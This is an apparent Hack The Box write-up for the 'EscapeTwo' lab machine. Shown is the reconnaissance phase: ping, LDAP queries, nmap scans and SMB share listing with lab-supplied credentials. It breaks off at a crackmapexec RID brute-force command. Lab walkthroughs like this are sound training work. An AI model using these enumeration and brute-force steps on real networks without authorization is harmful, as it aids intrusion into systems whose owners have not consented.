







EscapeTwo
Scanning
Passive
First, let's do a ping to determine which os is:
┌──(oriol㉿zero)-[~]
└─$ ping -c1 10.10.11.51
PING 10.10.11.51 (10.10.11.51) 56(84) bytes of data.
64 bytes from 10.10.11.51: icmp_seq=1 ttl=127 time=41.9 ms
--- 10.10.11.51 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 41.875/41.875/41.875/0.000 ms
With a TTL close to 128, we can assume it is a Windows.
I wil use a shell variable to store the IP of the target, this way I don't have to remember the IP and also it's easier for copy-pasting the command for the future
┌──(oriol㉿zero)-[~]
└─$ export target=10.10.11.51
┌──(oriol㉿zero)-[~]
└─$ echo $target
10.10.11.51
First, let's do a wget to see if this Windows has ISS (The default web server for Windows Server) installed.
┌──(oriol㉿zero)-[~]
└─$ wget http://$target
--2025-02-18 20:25:38-- http://10.10.11.51/
Connecting to 10.10.11.51:80... failed: Connection timed out.
Retrying.
--2025-02-18 20:27:54-- (try: 2) http://10.10.11.51/
Connecting to 10.10.11.51:80... ^C
┌──(oriol㉿zero)-[~]
└─$ wget https://$target
--2025-02-18 21:02:08-- https://10.10.11.51/
Connecting to 10.10.11.51:443... failed: Connection timed out.
Retrying.
--2025-02-18 21:04:23-- (try: 2) https://10.10.11.51/
Connecting to 10.10.11.51:443... failed: Connection timed out.
Retrying.
Neither http nor https. Let's keep searching.
I will try to connect via rdp using xfreerdp
┌──(oriol㉿zero)-[~]
└─$ xfreerdp /v $target
[21:10:25:530] [34757:34757] [WARN][com.freerdp.client.common.cmdline] - ----------------------------------------
[21:10:25:531] [34757:34757] [WARN][com.freerdp.client.common.cmdline] - Using deprecated command-line interface!
[21:10:25:531] [34757:34757] [WARN][com.freerdp.client.common.cmdline] - This will be removed with FreeRDP 3!
[21:10:25:531] [34757:34757] [WARN][com.freerdp.client.common.cmdline] - ----------------------------------------
[21:10:25:531] [34757:34757] [WARN][com.freerdp.client.common.compatibility] - /v -> /v:/v
[21:10:25:531] [34757:34757] [WARN][com.freerdp.client.common.compatibility] -
[21:10:25:531] [34757:34758] [INFO][com.freerdp.client.x11] - No user name set. - Using login name: oriol
[21:10:26:841] [34757:34758] [ERROR][com.freerdp.core] - connect
[21:10:26:841] [34757:34758] [ERROR][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex ERRCONNECT_CONNECT_FAILED [0x00020006]
No luck. Now, let's try to connect with smbclient and list all the samba shares with the L flag.
┌──(oriol㉿zero)-[~]
└─$ smbclient -L $target
Password for [WORKGROUP\oriol]:
Anonymous login successful
Sharename Type Comment
--------- ---- -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.51 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
Yes, we can see the line:
Anonymous login successful
There server is running samba and it accepts anonymous login! But we can't see any shares.
The other errors I suppose because the linux is trying to connect via SMBv1? Let's try to force SMBv3 with the -m flag:
┌──(oriol㉿zero)-[~]
└─$ smbclient -L $target -m SMB3
Password for [WORKGROUP\oriol]:
Anonymous login successful
Sharename Type Comment
--------- ---- -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.51 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
Nope, still same error. Anyway, I think there is no need to dig deeper here at the moment (Looking at other walkthroughs I did, the error also appears but it lists the shares anyway)
Active
I will use ldapserach to see if the target, being a windows server, has a active directory.
With this command I try to connect anonymously -x to the host -H, it tries to retrieve LDAP entries without specifying a search base, so by default it tries to search all active directory.
ldapsearch is considered an active enumeration technique, as it queries directly to the domain and is detectable
┌──(oriol㉿zero)-[~]
└─$ ldapsearch -x -H ldap://$target
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090C90, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v4563
# numResponses: 1
The response is good, as "In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c" means there is an AD service running, but we don't have the necessary permissions to make a query of all the directory (ldapsearch by default). We can try to limit the AD search, I will use this command:
ldapsearch -x -H ldap://$target -b "" -s base "(objectClass=*)"
- -x: Use simple authentication (anonymously)
- - b "": This tells the server to start the search at the very top (root) of the LDAP directory but doesn't request deeper information.
- -s base: This limits the search scope to only the base object (just information on the root level, no entries on the AD), this is much less intrusive and often allowed anonymously because it reveals only high-level directory information
- (objectClass=*): This is a filter, it requests all objects at the high level, which is often just a single entry that provides general information about the directory
┌──(oriol㉿zero)-[~]
└─$ ldapsearch -x -H ldap://$target -b "" -s base "(objectClass=*)"
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectClass=*)
# requesting: ALL
#
#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=sequel,DC=htb
ldapServiceName: sequel.htb:dc01$@SEQUEL.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxDirSyncDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedControl: 1.2.840.113556.1.4.2090
supportedControl: 1.2.840.113556.1.4.2205
supportedControl: 1.2.840.113556.1.4.2204
supportedControl: 1.2.840.113556.1.4.2206
supportedControl: 1.2.840.113556.1.4.2211
supportedControl: 1.2.840.113556.1.4.2239
supportedControl: 1.2.840.113556.1.4.2255
supportedControl: 1.2.840.113556.1.4.2256
supportedControl: 1.2.840.113556.1.4.2309
supportedControl: 1.2.840.113556.1.4.2330
supportedControl: 1.2.840.113556.1.4.2354
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=sequel,DC=htb
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
ation,DC=sequel,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=sequel,DC=htb
namingContexts: DC=sequel,DC=htb
namingContexts: CN=Configuration,DC=sequel,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=sequel,DC=htb
namingContexts: DC=DomainDnsZones,DC=sequel,DC=htb
namingContexts: DC=ForestDnsZones,DC=sequel,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 218961
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
CN=Sites,CN=Configuration,DC=sequel,DC=htb
dnsHostName: DC01.sequel.htb
defaultNamingContext: DC=sequel,DC=htb
currentTime: 20250218201737.0Z
configurationNamingContext: CN=Configuration,DC=sequel,DC=htb
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1
With this command we got the info: - Domain: sequel.htb - hostname: DC01
We can dig deeper with ldapserach, let's try to enumerate all the users:
┌──(oriol㉿zero)-[~]
└─$ ldapsearch -x -H ldap://$target -b "DC=sequel,DC=htb" -s sub "(objectClass=user)"
# extended LDIF
#
# LDAPv3
# base <DC=sequel,DC=htb> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#
# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090C90, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v4563
# numResponses: 1
As expected, it's not possible to do without being authenticated.
Let's add the hostname and domain to the hosts file.
┌──(oriol㉿zero)-[~]
└─$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 zero
10.10.11.51 dc0 dc0.sequel.htb sequel.htb
I will assume that this is the only server and the only dc, that's why I assigned that IP to the whole domain.
Now, let's check if there is a web page:
┌──(oriol㉿zero)-[~]
└─$ wget http://dc0.sequel.htb
--2025-02-19 20:07:53-- http://dc0.sequel.htb/
Resolving dc0.sequel.htb (dc0.sequel.htb)... 10.10.11.51
Connecting to dc0.sequel.htb (dc0.sequel.htb)|10.10.11.51|:80... ^C
┌──(oriol㉿zero)-[~]
└─$ wget https://dc0.sequel.htb
--2025-02-19 20:07:59-- https://dc0.sequel.htb/
Resolving dc0.sequel.htb (dc0.sequel.htb)... 10.10.11.51
Connecting to dc0.sequel.htb (dc0.sequel.htb)|10.10.11.51|:443... ^C
┌──(oriol㉿zero)-[~]
└─$ wget http://sequel.htb
--2025-02-19 20:08:05-- http://sequel.htb/
Resolving sequel.htb (sequel.htb)... 10.10.11.51
Connecting to sequel.htb (sequel.htb)|10.10.11.51|:80... ^C
┌──(oriol㉿zero)-[~]
└─$ wget https://sequel.htb
--2025-02-19 20:08:11-- https://sequel.htb/
Resolving sequel.htb (sequel.htb)... 10.10.11.51
Connecting to sequel.htb (sequel.htb)|10.10.11.51|:443... ^C
No luck.
Let's do a nmap scan. This time I will be doing a first general scan to see which ports are open, and then, do a deep scan only on the opened ports.
┌──(oriol㉿zero)-[~]
└─$ nmap -p- $target | awk 'NR>5 && !/Nmap/ {print $1}' | sed 's/\/tcp//' > ports
┌──(oriol㉿zero)-[~]
└─$ cat ports
53
88
135
139
389
445
464
593
636
1433
3268
3269
5985
9389
47001
49664
49665
49666
49667
49689
49690
49691
49706
49722
49743
49806
Now I have all the supposed active ports. Now, let's do another nmap scan with version enumeration and using scripts. Note, that all of this can be done with a one-liner without using a file to store the ports, I should take a look at it for the future.
Base nmap scan command found here: https://security.stackexchange.com/questions/128688/can-nmap-take-a-list-of-ports-to-scan-from-a-file
┌──(oriol㉿zero)-[~]
└─$ nmap -sC -sV -p$(cat ports| tr '\n' ',' | sed s/,$//) $target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 20:48 CET
Stats: 0:02:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 20:51 (0:00:00 remaining)
Nmap scan report for dc0 (10.10.11.51)
Host is up (0.042s latency).
PORT STATE SERVICE VERSION
53/tcp open domain?
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-19 19:46:32Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-19T19:49:28+00:00; -2m28s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-19T19:49:28+00:00; -2m28s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
| 10.10.11.51:1433:
| Target_Name: SEQUEL
| NetBIOS_Domain_Name: SEQUEL
| NetBIOS_Computer_Name: DC01
| DNS_Domain_Name: sequel.htb
| DNS_Computer_Name: DC01.sequel.htb
| DNS_Tree_Name: sequel.htb
|_ Product_Version: 10.0.17763
| ms-sql-info:
| 10.10.11.51:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
|_ssl-date: 2025-02-19T19:49:28+00:00; -2m28s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-02-19T18:14:17
|_Not valid after: 2055-02-19T18:14:17
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-19T19:49:28+00:00; -2m28s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
|_ssl-date: 2025-02-19T19:49:28+00:00; -2m28s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49689/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49690/tcp open msrpc Microsoft Windows RPC
49691/tcp open msrpc Microsoft Windows RPC
49706/tcp open msrpc Microsoft Windows RPC
49722/tcp open msrpc Microsoft Windows RPC
49743/tcp open msrpc Microsoft Windows RPC
49806/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -2m27s, deviation: 0s, median: -2m28s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-02-19T19:48:50
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.87 seconds
It has the Active directory "pack" with the services: - DNS - Kerberos: AD authentication service - msrpc: Microsoft Remote Procedure Call, is a service that lets clients request services or run code on the remote server, is used, for example by smb. - Kpasswd5: Service for changing kerberos passwords. - netbios: For resolving names, session establishment, ... - ldap: For active directory
It also has Microsoft SQL Server 2019, http running on the ports 5985 and 47001. And .NET message framing running, this means that possibly there is a .NET application running on that port.
On the Hack The Box machine description I see this: As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su
Seems we already have a user to connect to and then do enumeration with that user.
So, let's try to list the smb shares once more.
┌──(oriol㉿zero)-[~]
└─$ smbclient -L sequel.htb -U rose%KxEPkKe6R8su
Sharename Type Comment
--------- ---- -------
Accounting Department Disk
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Users Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to sequel.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
Yes, now we can see all the shares!
I connect to the Users share to see what is inside, as this is the only non default share and looks promising.
┌──(oriol㉿zero)-[~]
└─$ smbclient \\\\sequel.htb\\Users -U rose%KxEPkKe6R8su
Try "help" to get a list of possible commands.
smb: \> ls
. DR 0 Sun Jun 9 15:42:11 2024
.. DR 0 Sun Jun 9 15:42:11 2024
Default DHR 0 Sun Jun 9 13:17:29 2024
desktop.ini AHS 174 Sat Sep 15 09:16:48 2018
6367231 blocks of size 4096. 880953 blocks available
smb: \> cd Default
smb: \Default\> ls
. DHR 0 Sun Jun 9 13:17:29 2024
.. DHR 0 Sun Jun 9 13:17:29 2024
AppData DH 0 Sat Sep 15 09:19:00 2018
Desktop DR 0 Sat Sep 15 09:19:00 2018
Documents DR 0 Sun Jun 9 03:29:57 2024
Downloads DR 0 Sat Sep 15 09:19:00 2018
Favorites DR 0 Sat Sep 15 09:19:00 2018
Links DR 0 Sat Sep 15 09:19:00 2018
Music DR 0 Sat Sep 15 09:19:00 2018
NTUSER.DAT A 262144 Sun Jun 9 03:29:57 2024
NTUSER.DAT.LOG1 AHS 57344 Sat Sep 15 08:09:26 2018
NTUSER.DAT.LOG2 AHS 0 Sat Sep 15 08:09:26 2018
NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf AHS 65536 Sun Jun 9 03:29:57 2024
NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms AHS 524288 Sun Jun 9 03:29:57 2024
NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms AHS 524288 Sun Jun 9 03:29:57 2024
Pictures DR 0 Sat Sep 15 09:19:00 2018
Saved Games D 0 Sat Sep 15 09:19:00 2018
Videos DR 0 Sat Sep 15 09:19:00 2018
6367231 blocks of size 4096. 880953 blocks available
smb: \Default\>
Very promising, seems we have access to the whole rosa user profile folder, my guess is that maybe the users share content is different for every user, as samba creates a folder for each user and that is their private directory.
With a user, we can do a RID (Resource Identifier) bruteforce scan on the server to see if we can list more users.
┌──(oriol㉿zero)-[~]
└─$ crackmapexec smb sequel.htb -u rose -p 'KxEPkKe6R8su' --users --rid-brute
